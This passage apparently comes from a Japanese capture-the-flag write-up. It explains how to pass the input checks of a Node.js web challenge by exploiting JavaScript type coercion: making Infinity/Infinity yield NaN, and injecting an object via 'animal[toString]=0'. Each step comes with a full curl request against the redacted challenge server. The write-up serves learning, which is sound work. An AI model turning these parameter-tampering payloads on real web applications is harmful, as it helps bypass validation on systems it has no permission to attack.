 `worldname` と `component` がそれぞれ `1` から `9` のみからなっていることを確認した上で、`worldname / component` という計算がされています。その前後に `A` と `as` を結合して小文字化したものが `ananas` になればよいということですから、`worldname / component` を `NaN` にすればよいのでしょう。 

JavaScript では `Infinity / Infinity` は `NaN` になります。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999'
Wait Morty where's my thing?
```

### animal
```javascript
let animal = req.query.animal;
if (!Array.isArray(animal)) {
  try {
    res.end((animal / 1337).toString());
  }
  catch (e) {
    // …
  }
}
else {
  res.end("Well, animals here are not like other animals.");
}
```

`animal` を `1337` で割って文字列化したときにエラーを起こせばよいようです。

これまでのチェックと比べると、`(typeof animal) !== "object"` のように `Object` であるかどうかのチェックが入っていないことがわかります。`animal` を `Object` にすればよいということでしょう。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0'
Wait Morty where's my thing?
```